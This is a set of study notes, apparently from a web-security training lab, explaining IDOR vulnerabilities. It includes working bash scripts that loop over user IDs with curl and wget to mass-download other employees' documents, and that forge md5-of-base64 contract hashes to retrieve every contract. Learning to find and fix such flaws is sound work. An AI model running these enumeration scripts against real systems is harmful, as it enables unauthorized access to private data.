 

IDOR vulnerabilities occur when a web application exposes a direct reference to an object, like a file or a database resource, which the end-user can directly control to obtain access to other similar objects. If any user can access any resource due to the lack of a solid access control system, the system is considered to be vulnerable.

Just exposing a direct reference to an internal object or resource is not a vulnerability in itself. However, this may make it possible to exploit another vulnerability: a weak access control system. 
IDOR vulnerabilities may also lead to the elevation of user privileges from a standard user to an administrator user, with IDOR Insecure Function Calls.


# Identifying IDORs


### AJAX Calls




The following example shows a basic example of an AJAX call:

```
function changeUserPassword() {
    $.ajax({
        url:"change_password.php",
        type: "post",
        dataType: "json",
        data: {uid: user.uid, password: user.password, is_admin: is_admin},
        success:function(result){
            //
        }
    });
}
```







        ---Mass IDOR Enumeration


        -Insecure Parameters

        http://SERVER_IP:PORT/documents.php?uid=1


## Mass Enumeration

    we can either use a tool like Burp Intruder or ZAP Fuzzer to retrieve all files or write a small bash script to download all files

We can click on [CTRL+SHIFT+C] in Firefox to enable the element inspector, and then click on any of the links to view their HTML source code, and we will get the following:

```
<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
<li class='pure-tree_link'><a href='/documents/Report_3_01_2020.pdf' target='_blank'>Report</a></li
```

`$ curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"`


`$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"`





Now, we can use a simple for loop to loop over the uid parameter and return the document of all employees, and then use wget to download each document link:

```
#!/bin/bash
url="http://SERVER_IP:PORT"
for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```

When we run the script, it will download all documents from all employees with uids between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees.




        --Bypassing Encoded References



        -Function Disclosure

        As most modern web applications are developed using JavaScript frameworks, like Angular, React, or Vue.js, many web developers may make the mistake of performing sensitive functions on the front-end, which would expose them to attackers.



        If we take a look at the link in the source code, we see that it is calling a JavaScript function with javascript:downloadContract('1'). Looking at the downloadContract() function in the source code, we see the following:

        function downloadContract(uid) {
            $.redirect("/download.php", {
                contract: CryptoJS.MD5(btoa(uid)).toString(),
            }, "POST", "_self");
        }


        This function appears to be sending a POST request with the contract parameter, which is what we saw above. The value it is sending is an md5 hash using the CryptoJS library, which also matches the request we saw earlier. So, the only thing left to see is what value is being hashed.

        In this case, the value being hashed is btoa(uid), which is the base64 encoded string of the uid variable, which is an input argument for the function. Going back to the earlier link where the function was called, we see it calling downloadContract('1'). So, the final value being used in the POST request is the base64 encoded string of 1, which was then md5 hashed.

        Tip: We are using the -n flag with echo, and the -w 0 flag with base64, to avoid adding newlines, in order to be able to calculate the md5 hash of the same value, without hashing newlines, as that would change the final md5 hash.




        --Mass Enumeration

        Once again, let us write a simple bash script to retrieve all employee contracts.

        We can start by calculating the hash for each of the first ten employees using the same previous command while using tr -d to remove the trailing - characters, as follows:


        $ for i in {1..10}; do echo -n $i | base64 -w 0 | md5sum | tr -d ' -'; done

        Next, we can make a POST request on download.php with each of the above hashes as the contract value, which should give us our final script:

        #!/bin/bash

        for i in {1..10}; do
            for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
                curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
            done
        done



        


        ---IDOR in Insecure APIs


        While IDOR Information Disclosure Vulnerabilities allow us to read various types of resources, IDOR Insecure Function Calls enable us to call APIs or execute functions as another user. Such functions and APIs can be used to change another user's private information, reset another user's password, or even buy items using another user's payment information.



        --Exploiting Insecure APIs


        --Chaining IDOR Vulnerabilities

        